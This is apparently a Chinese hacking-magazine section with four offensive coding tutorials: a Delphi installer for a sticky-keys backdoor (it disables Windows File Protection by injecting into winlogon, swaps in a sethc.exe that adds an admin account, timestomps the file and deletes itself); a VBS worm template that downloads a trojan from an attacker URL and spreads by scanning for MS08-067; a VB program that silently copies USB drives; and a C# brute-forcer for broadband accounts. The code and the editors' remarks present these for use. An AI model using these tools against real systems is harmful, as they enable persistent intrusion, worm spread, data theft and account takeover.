> **编辑点评：** 看完后可以动起手，自己来实现一些简单的代码，这样才能真正掌握知识，毕竟实践是检验真理的唯一标准。

## 用 DELPHI 把粘滞键程序打造成至尊后门

图 朱建良

- 从本文您可以学到：
- 了解粘滞键后门
- 利用程序打造独特的粘滞键后门

### 前言

入侵 WINDOWS 系统成功以后，总想找一个隐蔽而又恒久的后门，希望它既不会被杀毒软件查杀，又不会引起管理员的注意，还能实现基本的后门功能。而对于启用远程登录服务的系统来说，粘滞键后门绝对是最为经典的后门。粘滞键程序可以在登录系统前运行，也就是说，在粘滞键上面做手脚可以让系统的密码形同虚设。今天我要做的就是用 DELPHI 打造一个与粘滞键程序有关的留后门程序。

这个程序的主要功能是把目标系统的粘滞键程序替换为经过修改的粘滞键程序，程序要完成的功能如下：

- 1. 开启粘滞键快捷键：目的是防止系统关闭了粘滞键快捷键功能。关闭系统的文件保护功能，为替换系统文件做准备。

# 快码加鞭


图1　用 OD 修改粘滞键后门程序

- 2、用自己修改过的粘滞键程序替换目标系统的粘滞键程序，修改过的程序就增加了一个添加管理员账户的功能。
- 3、修改粘滞键程序的新建、修改等时间为系统目录下正常程序的时间，防止被管理员发现。
- 4、最后，在程序的目的完成后，还要能删除自身。

这个值为 26，而为 510 或 31 等时，为开启，如图3所示。所以第一步要做的就是要把这个值改为 31 或者默认为 510。但是有一点要注意，在注册表里修改的时候是要注销或者重启后，设置才能生效的。

### 具体实现过程

知道了目的，我们就来实现具体的功能吧。在编写程序之前先来准备我们的后门——一个经过修改的粘滞键程序。这个粘滞键程序是在正常的粘滞键程序上通过逆向工程添加了一个增加管理员账户的功能，具体怎么实现我就不说了，有兴趣的朋友网上找一下就可以了，下面是我修改时的截图，如图1所示。

从图1中可以看出，我添加了一个用户名和密码都是“z”的管理员用户。当然，这个你可以根据实际情况自己修改，要不然如果被你入侵的系统设置了 BT 的管理员密码策略，这样的密码有可能导致添加不了这个用户。

**特别要注意的是，WINXP 和 WIN2003 的粘滞键程序是不一样的，两个程序的大小不同，如图2所示。**

WIN2003 下的 sethc.exe 文件比 WINXP 下的大，两个文件是不一样的，所以在修改的时候最好在 WIN2003 系统下修改 WIN2003 的 sethc.exe，在 WINXP 下修改 WINXP 的 sethc.exe。替换的时候也是遵循这样一个原则，否则是会出错的。

后门做好后，我们来制作主程序，编程工具就用自己喜欢的 DELPHI 吧。先来实现第一个功能，为了防止目标系统关闭了粘滞键快捷键，所以在替换我们的后门之前要把粘滞键快捷键这个功能打开。因为关闭粘滞键快捷键的方法是修改“控制面板”里的“辅助功能选项”中的“粘滞键”设置，所以就用 regsnap 给启用粘滞键快捷键和关闭粘滞键快捷键时的注册表项情况做了比较。最后发现，控制这个开关的地方就是注册表 `HKEY_CURRENT_USER\Control Panel\Accessibility\StickyKeys` 下“Flags”的值，当关闭粘滞键快捷键的时候，这个值为 26，而为 510 或 31 等时，为开启，如图3所示。


图3　启用与关闭粘滞键快捷键时注册表比较

下面先运行 DELPHI，为了减小体积，我们新建一个控制台程序，写入以下代码：

```pascal
procedure SetRegValue(ROOT: hKey; Path: String; Value: String; Data: Integer);
var
    Key: hKey;
    Size: Cardinal;
begin
    RegOpenKey(ROOT, pChar(Path), Key);    // 打开指定键
    Size := 4;
    RegSetValueEx(Key, pChar(Value), 0, REG_DWORD, @Data, Size);
    // 写注册表
    RegCloseKey(Key);    // 释放
end;
```

调用时使用以下代码：

```pascal
SetRegValue(HKEY_CURRENT_USER, 'Control Panel\Accessibility\StickyKeys', 'Flags', 31);
```

接下来是要实现关闭系统文件保护的功能，这个我就使用网上流传的注入 winlogon.exe 的方法关闭系统文件保护功能，代码及注释如下（以下代码需要引用 TlHelp32 单元）：

```pascal
procedure InjectThread(ProcessHandle: DWORD); // 注入 winlogon.exe，关闭文件保护
var
```


图2　WINXP 和 WIN2003 的粘滞键程序属性比较

```pascal
TID: LongWord;
hSfc, hThread: HMODULE;
pfnCloseEvents: Pointer;
begin
  hSfc := LoadLibrary('sfc_os.dll'); // 载入文件保护功能关键 DLL
  pfnCloseEvents := GetProcAddress(hSfc, MAKEINTRESOURCE(2)); // 得到模块句柄
  FreeLibrary(hSfc);
  hThread := CreateRemoteThread(ProcessHandle, nil, 0, pfnCloseEvents,
    nil, 0, TID); // 利用 CreateRemoteThread 远程注入
  WaitForSingleObject(hThread, 4000); // 当函数的执行时间超过 4000 毫秒时就返回
end;

procedure InitProcess(Name: string); // 查找 winlogon.exe 进程 PID
var
  FSnapshotHandle: THandle;
  FProcessEntry32: TProcessEntry32;
  ProcessHandle: DWORD;
begin
  FSnapshotHandle := CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); // 创建系统的所有进程列表
  FProcessEntry32.dwSize := SizeOf(FProcessEntry32); // 在调用 Process32First API 之前，需要初始化 FProcessEntry32 记录的大小
  if Process32First(FSnapshotHandle, FProcessEntry32) then begin // 如果能将进程列表的第一个进程信息读入 FProcessEntry32 记录中
    repeat
      if Name = LowerCase(FProcessEntry32.szExeFile) then
      begin
        ProcessHandle := OpenProcess(PROCESS_ALL_ACCESS, False,
          FProcessEntry32.th32ProcessID);
        InjectThread(ProcessHandle); // 注入 winlogon.exe，关闭文件保护
        CloseHandle(ProcessHandle);
        Break;
      end;
    until not Process32Next(FSnapshotHandle, FProcessEntry32);
  end;
  CloseHandle(FSnapshotHandle);
end;
```

使用以上代码可以在 WINXP 和 WIN2003 下顺利实现在替换系统文件时不出现系统文件被替换的提示，这样就不会引起管理员的注意了。

下面来实现第二步，使用了一个资源释放覆盖的方法来完成，因为这个方法比较方便。首先用记事本程序建立一个内容为 “myexe exefile sethc.exe”，扩展名为 .RC 的 sethc.rc 资源文件。因为 RC 文件格式为“名称 类型 实际文件名”，所以建立的 RC 文件是把文件名为 “sethc.exe” 的 exe 文件生成一个能被 DELPHI 用 “myexe” 名称来调用的资源。

然后，使用 DELPHI 自带的资源编译工具 brcc32.exe 把 sethc.rc 编译成 RES 的资源文件，如图4所示。


下面我们添加 Windows、Classes、TlHelp32 三个要引用的单元和用 `{$R sethc.RES}` 代码添加 sethc.res 资源文件，如图5所示。

然后使用以下代码释放资源文件：

```pascal
function ExtractRes(ResType, ResName, ResNewName: string): boolean; // 释放资源文件
var
  res: TResourceStream; // 资源流对象类型
begin
  try
    res := TResourceStream.Create(hInstance, ResName, PChar(ResType)); // 建立资源对象
    try
      res.SaveToFile(ResNewName); // 保存释放的资源
      Result := true;
    finally
      res.Free;
    end;
  except
    Result := false;
  end;
end;
```

代码比较简单，利用这个释放资源的函数把 sethc.exe 释放到系统目录的 **system32\dllcache** 目录下和 **system32** 目录下就大功告成了。

这个时候我们的任务基本上就完成了，但是为了程序的隐蔽性和不留下痕迹，我们还要做两项善后工作，首先当然是修改被替换程序的创建和修改时间。因为我比较懒，所以这部分代码是修改了我以前用 DELPHI 编的修改文件日期属性工具的代码，具体核心代码如下：

```pascal
procedure SetFileDateTime(const Tf: string; d1, d2: string); // 设置文件时间，输入值表示目标文件的路径和文件的创建时间及修改时间
var
  Dt1, Dt2: Integer;
  FS: TFileStream;
  Fct, Flt, TFileTime; // 声明变量
begin
  Dt1 := DateTimeToFileDate(Trunc(StrToDate(Copy(d1, 1, 10))) + Frac(StrToTime(Copy(d1, 12, 8))));
  Dt2 := DateTimeToFileDate(Trunc(StrToDate(Copy(d2, 1, 10))) + Frac(StrToTime(Copy(d2, 12, 8))));
  try
    FS := TFileStream.Create(Tf, fmOpenReadWrite);
    if DosDateTimeToFileTime(LongRec(Dt1).Hi, LongRec(Dt1).Lo, Fct) and
       LocalFileTimeToFileTime(Fct, Fct) and
       DosDateTimeToFileTime(LongRec(Dt2).Hi, LongRec(Dt2).Lo, Flt) and
       LocalFileTimeToFileTime(Flt, Flt) then
      SetFileTime(FS.Handle, @Fct, @Flt, @Flt); // 设置文件时间属性
  finally
    FS.Free; // 释放
  end;
end;

procedure GetFileTime(const Tf: string); // 得到文件时间，输入值表示目标文件的路径
const
  Model = 'yyyy/mm/dd,hh:mm:ss'; // 这是时间的格式
var
  Tp: TSearchRec; // 声明一个查找记录
  T1, T2, T3: string;
begin
  FindFirst(Tf, faAnyFile, Tp); // 查找目标文件
  T1 := FormatDateTime(Model, CovFileDate(Tp.FindData.ftCreationTime)); // 返回文件的创建时间
  T2 := FormatDateTime(Model, CovFileDate(Tp.FindData.ftLastWriteTime)); // 返回文件的修改时间
  SetFileDateTime(PChar(getwinpath + 'system32\sethc.exe'), T1, T2); // 设置系统目录 system32 下面的 sethc.exe 的创建和修改的文件时间
  SetFileDateTime(PChar(getwinpath + 'system32\dllcache\sethc.exe'), T1, T2); // 设置系统目录 system32\dllcache\ 下面的 sethc.exe 的创建和修改的文件时间
  FindClose(Tp);
end;
```

然后调用 `GetFileTime(PChar(getwinpath+'system32\userinit.exe'))` 代码来设置替换的粘滞键程序与系统 system32 目录下的“userinit.exe”的创建和修改时间保持一致。

接下去我们来完成最后的工作，删除这个辅助程序，这个功能实现很简单，就是利用一个批处理文件而已，主要代码如下：

```pascal
procedure delself();      // 删除自身
var
  Selfname, BatFilename, s1, s2: string;
  BatchFile: TextFile;
begin
  Selfname := ExtractFileName(ParamStr(0)); // 获取 EXE 文件自己的名称
  BatFilename := ExtractFilePath(ParamStr(0)) + 'a.bat'; // 批处理文件名称
  s1 := '@del ' + Selfname;
  s2 := 'if exist ' + Selfname + ' goto pp'; // 一个循环命令
  AssignFile(BatchFile, BatFilename);
  ReWrite(BatchFile);
  Writeln(BatchFile, ':pp');
  Writeln(BatchFile, s1);
  Writeln(BatchFile, s2);
  Writeln(BatchFile, '@del %0'); // 添加批处理代码“@del %0” // @del %0 为删除自身的命令
  CloseFile(BatchFile); // 关闭文件句柄
  WinExec(PChar(BatFilename), SW_HIDE); // 隐藏窗口运行 a.bat
end;
```

代码也很简单，就不多解释了。把以上的代码组合一下，再添加一些其他的连接代码，编译一下，我们的利器就生成了。当然，如果你觉得 100KB 左右的文件还大的话，可以添加一个压缩壳，具体可以看我的打包附件。

当我们进入一台服务器后，直接把这个程序在服务器上运行，这样就会在这台服务器上为我们开一扇大门，当要进去时，直接在终端登录时按 5 次 Shift 键就能生成我们的用户了，接着自然是名正言顺地踏进服务器的大门，如图6所示。


图6　在登录界面按 5 次 Shift 及 3389 登录系统

文章到这里基本上就结束了，不过有个注意点还是要提醒一下：

WINXP 和 WIN2003 中的粘滞键程序是不能互相替换的，否则程序不是出错就是不受运行成功。我在附件里提供的是 WIN2003 中的粘滞键后门，所以在 WINXP 中会出错，但在 WIN2003 中运行正常。还有就是“走之前”记得要把新建的用户和用户的配置文件删除！

以上代码我在 WINXP 和 WIN2003 下测试通过，大家有什么问题可以到论坛（http://www.nohack.cn/bbs）来找我，我的 ID 是 KKGHT。

> （文章中所涉及的相关代码已经收录在光盘中）

**编辑点评：** 粘滞键后门出来很久了，的的确确是个万能的门，这里仅仅是带大家见识一下如何精心打造自己的利器而已！

## 利用 VBS 写蠕虫模板

口 马骏

- 1. 简单了解 VBS
- 2. 利用现有工具及 VBS 编写蠕虫

最近满世界都在传 MS-08067 漏洞的利用工具和演示动画，简单地看了下 MS-08067 的介绍，发现这漏洞也挺鸡肋的，起码我的机器你搞不下，搞内网的机器，尤其是网吧服务器还是挺不错的。

本人不会写程序，写出来的东西也是垃圾，希望各位留点手，别直接把代码复制过去就说是自己写的 XXX 蠕虫。代码不保证免杀，只是提供一个思路，本文只对程序部分代码进行注释并 copy 出来，完整的请见光盘。

什么是蠕虫呢？蠕虫是一种经由网络扩散的恶意程序，会导致系统速度减慢和网络堵塞。蠕虫通常通过电子邮件和系统漏洞进行传播。

先说一下程序的功能，我们只考虑自动溢出并种马，也就是程序的传播性，不考虑别的什么功能，所以程序还是比较简单的。首先介绍程序的设计思路：**利用 MS-08067 漏洞进行传播，**

从外部下载溢出程序和扫描器，程序能自动扫描随机 IP 并溢出。

首先是 MS-08067 漏洞的溢出程序，还有扫描器，我们 DOWN 下来一个，并且放在同一位置。因为要写的是一个蠕虫模板，而不是单独针对 MS-08067 的蠕虫，到时把 MS-08067 漏洞利用工具换成别的就可以了，关键代码如下：

```vbscript
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Post = CreateObject("Msxml2.XMLHTTP")
Set majun = CreateObject("Wscript.Shell")
Post.Open "GET", "http://你的马的地址", 0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Type = 1
aGet.Mode = 3
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "下载后改名", 2
```

这是网上的一个 VBS 下载者的部分代码，我拿来修改了一下。set 部分是给对象赋值，下面则是下载部分的代码，用来下载事先准备好的程序。在代码里多复制几次，那就成了一个多项下载器。

## 快码加编

载好了。这里分别下载了 MS-08067 利用工具、S 扫描器，还有扫描要用到的批处理。

剩下的则是执行了，具体代码如下：

```vb
wscript.sleep '设置时间（单位毫秒）
Shell.Run "（要执行的马的地址）"
Shell.Run "cmd /c '批处理地址'", vbhide
```

好了，VBS 部分的介绍就结束了，最后一句的作用是以隐藏方式执行批处理。

下面是批处理部分，它的批量扫描是通过一个 for 命令来实现的，扫描 IPs.txt 里指定的 IP 段中打开 445 端口的机器，并保存下来。不懂的可以 baidu 一下 for 命令的用法。

```bat
for /f "eol=; tokens=1,2 delims=." %%i in (IPs.txt) do s tcp %%i %%j 445 | find "open" /save
```

上边是批处理中扫描的部分，由于考虑到自动扫描的功能，那就必须要有 IP，得到 IP 的方法很多，这里使用随机生成的方式，具体代码如下：

```bat
SET ADDR1=254
SET ADDR2=254
SET ADDR3=254
SET ADDR4=254
SET /A ADDR1=%RANDOM% %% %ADDR1%
SET /A ADDR2=%RANDOM% %% %ADDR2%
SET /A ADDR3=%RANDOM% %% %ADDR3%
SET /A ADDR4=%RANDOM% %% %ADDR4%
echo 220.220.%ADDR2%.%ADDR3% 220.220.%ADDR1%.255 >> IPs.txt
```

首先赋予变量 ADDR1 至 ADDR4 都是 254，然后用 %RANDOM% 随机选取。下面 4 句则是随机选取 254 以内的数分别赋予 ADDR1 至 ADDR4，最后用 echo 输出。输出 220.220.%ADDR2%.%ADDR3% 到 220.220.%ADDR1%.255 的 IP 写到 IPs.txt 里，这样我们就随机生成了一个 IP 段。考虑到肉鸡性能，可以把 220 换成自己想要的 IP 段。

自动扫描之后就可以用 NC 来提交执行了。介绍下 NC 提交的内容，首先文件开头写一句 del 1.VBS，防止原本就有一个 1.VBS 在肉鸡上。接着是 echo 那个 VBS 码，大家看着光盘里的完整文件代码进行修改就 OK。程序末尾的代码如下：

```bat
cscript 1.VBS
ping 127.0.0.1 -n 5>nul
del 1.VBS
exit
```

第一句是执行 VBS，第二句延迟 5 秒，因为 ping 127.0.0.1 平均是 1 秒左右。接下来是删除 1.VBS 文件，最后退出。exit 下面有个回车，大家别忘了。

现在我们只需要把批处理和 MS-08067 利用工具及扫描器、NC 等放到支持 http 下载的空间里，然后用 1.VBS 下载就好了。大家如果有什么疑问可以给我发邮件：majun1988@gmail.com。

> （文中所涉及的相关代码及工具都已经收录于光盘中）

**编辑点评：**

工具贵在会用工具，但用多了也要开动一下脑子。巧用现有的程序完成一个“骑马”，达到自己想要的效果，其实这也不失为一种好方法。

## VB子类化技术打造U盘小偷

图 无敌小龙

从本文您可以学到：

- 1. 了解什么是子类化
- 2. 简单利用子类化编写程序

众所周知，Windows 是一个基于消息的系统，消息在 Windows 的对象之间进行着传递。子类化和 Windows 的钩子机制存在于消息系统之中，我们可以利用这些机制来操纵、修改甚至丢弃那些在操作系统，或是进程中传递的消息，以求改变系统的一些行为。

而 U 盘的插和拔都是通过系统消息进行的，我看过 C++ 版本的 U 盘小偷，使用的就是 HOOK 技术，但是 VB 如何实现呢？那就是子类化技术。

子类化技术用来截取窗口或控件之间的消息，当然是消息在到达目的窗口之前完成的操作。这些被截获的消息既可以保留，也可以修改它们的状态，之后就继续发送到目的地。子类化技术实现了一些正常情况下无法实现的功能，试想鼠标右键单击 TextBox，系统默认弹出 Undo、Cut、Copy、Paste 等菜单，我们就可以利用子类化技术来改变这个系统菜单。

简单地说，**子类化就是创建一个新的窗口消息处理过程，并将其插入到原先的默认窗口消息处理过程之前。**

- 实例子类化（instance subclassing）——从窗口或控件的单一实例截获消息，这种子类化技术最普遍。
- 全局子类化（global subclassing）——能够截获从相同的窗口类创建出来的多个窗口或控件的消息。
- 超类化（superclassing）——和全局子类化很类似，区别在于可以应用在新的窗口类上面。

理论说了这么多，现在就开始实战，首先打开 VB 编译环境，然后创建如图 1 所示界面。

在窗口模块中输入如下代码，其中程序流程如下：首先使用 HookForm 函数子类化窗口，然后，等待用户选择了隐藏窗口，则进行窗口隐藏；最后，如果单击了“结束”按钮，则调用 UnHookForm 函数撤销子类化处理。

```vb
Private Sub Check3_Click()
    If Check3.Value = 0 Then    '没有选择
        Form1.Visible = True    '可视化
    ElseIf Check3.Value = 1 Then '选择了隐藏
        Form1.Visible = False   '窗口隐藏
    End If
End Sub

Private Sub Command2_Click()
    Shell "explorer.exe http://hi.baidu.com/pespin", vbNormalFocus
    '弹出URL
End Sub

Private Sub Command3_Click()
    Form1.Visible = False
End Sub

Private Sub Command4_Click()
    End                 '结束
End Sub

Private Sub Command5_Click()
    UnHookForm Me       '恢复原窗体处理函数
End Sub

Private Sub Form_Load()
    HookForm Me         '子类化窗体的消息处理函数
    Check1.Value = 1    '提示复制完成
    Check2.Value = 1    '复制完成后，自动退出
End Sub
```

现在新建一个标准模块，输入如下代码，程序流程如下：首先捕获系统的消息，如果是 U 盘被插入了，就开始删除旧目录；然后使用 `Get_u()` 这个自定义函数得到 U 盘的盘符；最后使用自定义的函数 `CopyTo` 来把 U 盘文件复制到本地磁盘。

```vb
'子类化窗体消息处理函数时需要使用的API，很常见，这里不作过多说明。
Declare Function SetWindowLong Lib "user32" Alias "SetWindowLongA" (
    ByVal hwnd As Long, ByVal nIndex As Long, ByVal dwNewLong As Long) As Long

Declare Function CallWindowProc Lib "user32" Alias "CallWindowProcA" (
    ByVal lpPrevWndFunc As Long, ByVal hwnd As Long, ByVal Msg As Long,
    ByVal wParam As Long, ByVal lParam As Long) As Long

Declare Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (
    pDst As Any, pSrc As Any, ByVal ByteLen As Long)

Private Declare Function GetDriveType Lib "kernel32" Alias "GetDriveTypeA" (
    ByVal nDrive As String) As Long

Const GWL_WNDPROC = -4
Const WM_DEVICECHANGE As Long = &H219
Const DBT_DEVICEARRIVAL As Long = &H8000&
Const DBT_DEVICEREMOVECOMPLETE As Long = &H8004&

'设备类型：逻辑卷标
Const DBT_DEVTYP_VOLUME As Long = &H2

'与 WM_DEVICECHANGE 消息相关联的结构体头部信息
Private Type DEV_BROADCAST_HDR
    lSize As Long
    lDevicetype As Long      '设备类型
    lReserved As Long
End Type

'设备为逻辑卷时对应的结构体信息
Private Type DEV_BROADCAST_VOLUME
    lSize As Long
    lDevicetype As Long
    lReserved As Long
    lUnitMask As Long        '和逻辑卷标对应的掩码
    lFlag As Integer
End Type

Public info As DEV_BROADCAST_HDR
Public info_volume As DEV_BROADCAST_VOLUME
Public PrevProc As Long      '原来的窗体消息处理函数地址

Public Sub HookForm(F As Form)
    PrevProc = SetWindowLong(F.hwnd, GWL_WNDPROC, AddressOf WindowProc)
End Sub

Public Sub UnHookForm(F As Form)
    SetWindowLong F.hwnd, GWL_WNDPROC, PrevProc
End Sub

Public Function WindowProc(ByVal hwnd As Long, ByVal uMsg As Long, _
    ByVal wParam As Long, ByVal lParam As Long) As Long
    Select Case uMsg
```

```vb
Case WM_DEVICECHANGE
    '===========1. 插入 USB DISK 则接收到此消息
    If wParam = DBT_DEVICEARRIVAL Then
        '若插入USBDISK或者映射网络盘等则 info.lDevicetype = 2，即 DBT_DEVTYP_VOLUME
        CopyMemory info, ByVal lParam, Len(info)
        '利用参数 lParam 获取结构体头部信息
        If info.lDevicetype = DBT_DEVTYP_VOLUME Then
            CopyMemory info_volume, ByVal lParam, Len(info_volume)
            Form1.List1.AddItem "有U盘插入：" & Get_u
            Form1.Label2.Caption = Get_u      '显示U盘盘符

            On Error Resume Next
            Kill Form1.Text1.Text             '首先删除旧目录
            Form1.List1.AddItem "kill old folder"
            CopyTo Get_u, Form1.Text1.Text
            '-----------B. 然后创建新目录，并且复制文件
        End If
    End If

    '===========2. 若移走 USB DISK 或者映射网络盘等则 info.lDevicetype = 2，即 DBT_DEVTYP_VOLUME
    If wParam = DBT_DEVICEREMOVECOMPLETE Then
        CopyMemory info, ByVal lParam, Len(info)
        If info.lDevicetype = DBT_DEVTYP_VOLUME Then
            CopyMemory info_volume, ByVal lParam, Len(info_volume)
            Form1.List1.AddItem "U盘被拔出"
        End If
    End If
End Select

WindowProc = CallWindowProc(PrevProc, hwnd, uMsg, wParam, lParam)
'调用原来的窗体消息处理函数
End Function

'需要在工程里引用 Microsoft Scripting Runtime 库。
Public Sub CopyTo(Path1 As String, Path2 As String)
    '===========复制所有的目录和文件
    On Error Resume Next
    Dim fso As FileSystemObject
    Set fso = CreateObject("Scripting.FileSystemObject")
    Form1.List1.AddItem "createobject"

    'Set Folder = object.CreateFolder(Form1.Text1.Text)
    '在目标目录建立一个新的目录，保存文件
    '使用上面的语句总是出错，不知道原因，所以这里使用 MKDIR 来创建保存目录
    MkDir Path2
    Form1.List1.AddItem "createfolder"

    fso.CopyFolder Path1 & "\*", Path2    '复制所有目录
    fso.CopyFile Path1 & "\*", Path2      '复制所有文件
    Form1.List1.AddItem "copy folder and file"

    '复制完毕
    If Form1.Check1.Value = 1 Then          '复制完毕，提醒
        MsgBox "复制完毕"
    End If
    If Form1.Check2.Value = 1 Then          '复制完毕，自动关闭
        End
    End If
End Sub

Public Function Get_u() As String
    '=============================返回 U 盘盘符
    '用法： MsgBox get_u
    For i = 65 To 90
        Select Case GetDriveType(Chr(i) + ":\")
        Case 2
            Get_u = Chr(i) + ":\\"        '+ "---Removable" U盘
        Case 3
            'List1.AddItem Chr(i) + ":\\" + "---Drive Fixed"    '硬盘
        Case Is = 4
            'List1.AddItem Chr(i) + ":\\" + "---Remote"
        Case Is = 5
            'List1.AddItem Chr(i) + ":\\" + "---Cd-Rom"
        Case Is = 6
            List1.AddItem Chr(i) + ":\\" + "---Ram disk"
        Case Else
            List1.AddItem Chr(i) + ":\\" + "---Unrecognized"
        End Select
    Next
End Function
```

现在 F5 运行程序，可以看到运行界面如图 2 所示。此时把一个 U 盘插入到主机的 USB 接口，可以看到在列表框中马上显示了程序的处理过程，并且在复制文件完毕后，弹出了消息框，如图 3 所示。

同时，如果你拔出 U 盘，程序还会提示你 U 盘被拔出，如图 4 所示。

这里介绍的子类化技术可以运用到很多地方，比如截获键盘消息、修改系统默认菜单等，就看大家发挥了。

> （文章中所涉及的相关代码及工具已经收录在光盘中）

**编辑点评：**

子类化的作用很大，本文仅仅介绍了其小之又小的一部分。虽然 U 盘小偷已经随处可见，但 VB 子类化的不多，这里小编要感谢作者，引领大家一起进入子类化的世界。

## C#编程分享得到长城宽带账号密码

图 向前辈

从本文您可以学到：

- 1. 了解 C# 基本语法
- 2. 了解截取及分析数据包

长城宽带——一个知名的宽带接入商，但是知名的宽带接入商也不能避免一些低级的错误。

我们每次登录账号的时候却没有一个验证码，这样就可以利用 C# 的 HttpWebRequest 毫无忌惮地发送请求，并利用 HttpWebResponse 类得到请求的内容，来判断是否登录成功。当然，其中涉及到简单的线程。知道思路了，现在我们开始来写程序。

新建一个 C# 控制台应用程序，导入以下几个命名空间：

```csharp
using System.Net;
using System.Timers;
using System.IO;
using System.Threading;
using System.Net.NetworkInformation;
```

在 Main，定义几个变量：

```csharp
static int startNum = 0;   //用来保存需要猜解的开始账号
static int endNum = 0;     //用来保存需要猜解的结束账号
static int pwd = 123456;   //初始密码
```

这几个变量是分别用来保存需要猜解的开始账号和结束账号，还有猜解的密码。使用 Console.ReadLine() 读取用户输入的开始账号和结束账号及需要猜解的密码，并保存在刚才定义的变量之中。

```csharp
Console.WriteLine("请输入开始账号：");
startNum = int.Parse(Console.ReadLine());
Console.WriteLine("请输入结束账号：");
endNum = startNum = int.Parse(Console.ReadLine());
Console.WriteLine("请输入需要猜解的密码：");
pwd = int.Parse(Console.ReadLine());
```

接收用户输入的信息完成，这时候就需要开辟一个线程，单独来猜解密码了。为什么要开辟单独一个线程呢？因为如果在当前线程中执行，界面会被阻塞。

## 快码加编

前线程猜解的话，一时半会儿猜解不出来，就会造成假死现象，所以需要单独开辟一个线程来猜解账号。

```csharp
Thread th = new Thread(new ThreadStart(new Program().Cracker));
th.Start();
```

Cracker 方法是在 Program 类里面，并且线程是在静态方法里面声明的，所以我们必须先实例化一个对象，再调用该对象的方法。

当我们实例化一个线程类的时候，需要利用委托并调用一个方法，所以我们新建 Cracker 方法。

```csharp
private void Cracker()
{
    HttpWebRequest request;
    HttpWebResponse response;
    byte[] data;
    for (int i = startNum; i < endNum; i++)
    {
    }
}
```

request 和 response 是请求和接收响应的对象，data 是请求内容的字节数组。

其实，长城宽带每开通一个账号都会给一个初始密码 123456 或者其他简单的密码，即使没有，一般有些用户也会为了方便而把密码改成 123456。其实这也利用了一点点社会工程学，所以我们密码一般就设置为 123456，然后利用 for 循环，穷举全部账号。

现在直接在 Cracker 方法体里面写上循环条件，还有内容。

```csharp
for (int i = startNum; i < endNum; i++)
{
}
```

现在程序的大致框架已经做好了，我们可以在循环体里面写上要循环发送的请求内容。那么发送的内容是什么呢？我们可以用 Winsock 截获请求的具体内容，我访问宽带的地址是：http://192.168.6.2/，具体内容如图1、图2所示。


我这里的长城宽带刚换成理想网络，操作原理也完全一样。输入测试账号“Storys”，密码“111111”，点击登录，返回错误信息，如图3所示。


看看抓包得到的内容，如图4所示。


我们可以看到请求的内容为“DDDDD=Storys&upass=111111&0MKKey=%B5%C7%C2%BC+Login”，Storys 是账号，111111 则是密码。

现在我们把循环体请求的内容构造为：

```csharp
string postContent = "DDDDD=" + i + "&upass=" + pwd + "&0MKKey=%B5%C7%C2%BC+Login";
```

请求内容构造成功，现在就需要实例化一个请求的对象，也就是循环上面声明的对象。HttpWebRequest 需要用 WebRequest 来创建一个对象，并强转为 HttpWebRequest，代码如下：

```csharp
request = (HttpWebRequest)WebRequest.Create("http://192.168.6.2/");
```

当然，我们还可以用 as 进行强转，代码如下：

```csharp
request = WebRequest.Create("http://192.168.6.2/") as HttpWebRequest;
```

每次请求时还需保留请求的 Cookie，设置请求的方法、设置 Content-Type HTTP 标头的值、请求内容的长度，相关代码如下：

```csharp
data = new ASCIIEncoding().GetBytes(postContent);
request.Method = "POST";
request.CookieContainer = new CookieContainer();
request.ContentType = "application/x-www-form-urlencoded";
request.ContentLength = data.Length;
```

前面赋值已经做好了，那么该怎么请求呢？这就要用到流。首先获得请求流，然后再把请求的内容写入进去，最后关闭流，相关代码如下：

```csharp
Stream requestStream = request.GetRequestStream();
requestStream.Write(data, 0, data.Length);
requestStream.Close();
```

当程序运行到这里的时候，已经完成了请求。那么到底请求成功没有，返回的内容是什么？我们就需要用到 WebResponse 类了。首先，应该获取请求返回的流，先定义返回内容的大小，然后实例化一个 response 对象，并且获得返回流及流的大小，把流放入事先声明好的字节数组中去，再转换成 string 类型。请看如下代码：

```csharp
byte[] buf = new byte[30240];
response = (HttpWebResponse)request.GetResponse();
Stream responseStream = response.GetResponseStream();
int count = responseStream.Read(buf, 0, buf.Length);
string content = Encoding.Default.GetString(buf, 0, count);
```

上面转换成字符串的方法是得到本机默认的编码格式，并且转换。这样，我们就完成了从请求到得到响应内容的全部过程，但是要怎么才能判断登录是否成功呢？

其实当我们手动登录的时候，每当看到“登录成功”的提示就知道本次登录成功了，所以，程序也不例外，我们也是判断返回的内容里面有没有“登录成功”的字符串，或者判断返回内容是否不包含“登录失败”的字符串。

可以给转换成 string 类型的这段话设置一个断点，在调试模式下去查看返回的内容，如图5、图6所示。一对比就知道了，登录成功的有“Dr.COM 登录成功窗”，所以判断返回的字符串里面是否包含“Dr.COM 登录成功窗”，否则登录失败。

这就需要用到 string 类的 IndexOf() 方法了，如果返回为 -1 则表示没有找到字符串，其他则表示找到字符串的位置。请看如下代码：

```csharp
if (content.IndexOf("Dr.COM登录成功窗") != -1)
{
}
```


```csharp
using (StreamWriter writer = new StreamWriter("Result.txt", true, Encoding.Default))
{
    writer.WriteLine(i.ToString());
    writer.Close();
}
```

这里为什么要用 Using 呢？Using 除了引用命名空间以外，当在某个代码段中使用了类实例，只要离开这个代码段，就自动调用这个实例的 Dispose。这样写即使最后不写上 Close() 方法，当离开该代码段的时候，Framework 也会帮我们自动关闭的。

账号虽然猜解到了，但是这只是针对没有验证码的网站进行密码和账号穷举，其中涉及到了线程，而且需要多线程进行操作，速度才能跟上去。

大家一定要注意我们实例化线程类的时候，必须通过委托来调用线程需要执行的方法，如果该线程在静态方法中声明，调用同类下面的方法时必须先实例化该类，也就是 new 一个对象，然后通过该对象进行调用，否则编译通不过。

> （文章中所涉及的相关代码及工具都已经收录在光盘中）

## 编辑点评

不用长宽也不知道有这等低级错误，看来长宽的菜菜们有福了，免费上网哦！不过不要太过了哦，小心挨 PP！

## Cracker 86期

冬天来了，crack 好像也进入了冬天，很多破解爱好者从原来的破解软件转向到漏洞分析、病毒分析等方面了，所以有时候会打击你，不得不放弃一些自己感兴趣的东西。但是技术依然是在天天进步，即使金融危机影响了全球经济，即使近来爆发的 IE 0day 漏洞。

## 每月版资源

### 1. FastScanner v2.0 English version


这是一个 AT4RE TEAM 出品的类似于 PEiD 的查壳工具，修复了一些目前已知的 bug，这次还更新了 PE-Editor plugin，功能是越来越完善了。为了照顾一些看不懂英文的朋友，我特意给大家找了一个汉化的版本，希望有用。我个人的观点是，尽量使用原版。

